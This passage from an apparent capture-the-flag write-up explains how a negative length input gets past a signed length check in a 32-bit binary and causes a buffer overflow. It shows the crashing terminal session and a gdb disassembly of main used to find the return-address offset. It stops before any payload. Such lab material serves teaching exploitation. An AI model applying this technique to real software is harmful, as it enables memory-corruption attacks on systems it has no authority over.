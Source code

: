 So we can see that it first establishes an int and char array of size `0x40`. Proceeding that, it runs the `greet` function which promts the user for input and stores it in a similar char array, and prints it out. Proceeding that it runs the `num` function which scans in ten bytes of data and returns the output of the `atoi` function on those ten bytes. If that number is greater than `0x40` the program exits. If the program doesn't exit, then it will read in that many bytes into the original buffer.

So if we can find a way to pass the length check with a number greater than `0x40`, we will have an overflow. Luckily for us we can. Read expects an unsigned integer for it's argument. However the comparison expects a signed integer. So what we can do is feed a negative number which will pass the check, however when it is interpreted as an unsigned integer it will give us plenty of space:

```
$	./vuln 
Enter username: guyinatuxedo
Hey guyinatuxedo
-Enter length: 128
Enter string (length 4294967168): 000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
Thanks, bye!
Segmentation fault (core dumped)
```

So we saw that it worked, and we were able to get a buffer overfow. Let's see the offset to the return address:

```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x080486ef <+0>:	lea    ecx,[esp+0x4]
   0x080486f3 <+4>:	and    esp,0xfffffff0
   0x080486f6 <+7>:	push   DWORD PTR [ecx-0x4]
   0x080486f9 <+10>:	push   ebp
   0x080486fa <+11>:	mov    ebp,esp
   0x080486fc <+13>:	push   esi
   0x080486fd <+14>:	push   ebx
   0x080486fe <+15>:	push   ecx
   0x080486ff <+16>:	sub    esp,0x5c
   0x08048702 <+19>:	call   0x8048570 <__x86.get_pc_thunk.bx>
   0x08048707 <+24>:	add    ebx,0x18f9
   0x0804870d <+30>:	mov    eax,DWORD PTR [ebx-0x8]
   0x08048713 <+36>:	mov    eax,DWORD PTR [eax]
   0x08048715 <+38>:	sub    esp,0x8
   0x08048718 <+41>:	push   0x0
   0x0804871a <+43>:	push   eax
   0x0804871b <+44>:	call   0x8048490 <setbuf@plt>
   0x08048720 <+49>:	add    esp,0x10
   0x08048723 <+52>:	mov    eax,DWORD PTR [ebx-0x8]
   0x08048729 <+58>:	mov    edx,DWORD PTR [eax]
   0x0804872b <+60>:	mov    eax,DWORD PTR [ebx-0xc]
   0x08048731 <+66>:	mov    eax,DWORD PTR [eax]
   0x08048733 <+68>:	sub    esp,0x8
   0x08048736 <+71>:	push   edx
   0x08048737 <+72>:	push   eax
   0x08048738 <+73>:	call   0x8048636 <greet>
   0x0804873d <+78>:	add    esp,0x10
   0x08048740 <+81>:	sub    esp,0xc
   0x08048743 <+84>:	push   0x1
   0x08048745 <+86>:	call   0x80484c0 <sleep@plt>
   0x0804874a <+91>:	add    esp,0x10
   0x0804874d <+94>:	sub    esp,0xc
   0x08048750 <+97>:	lea    eax,[ebx-0x1778]
   0x08048756 <+103>:	push   eax
   0x08048757 <+104>:	call   0x80484b0 <printf@plt>
   0x0804875c <+109>:	add    esp,0x10
```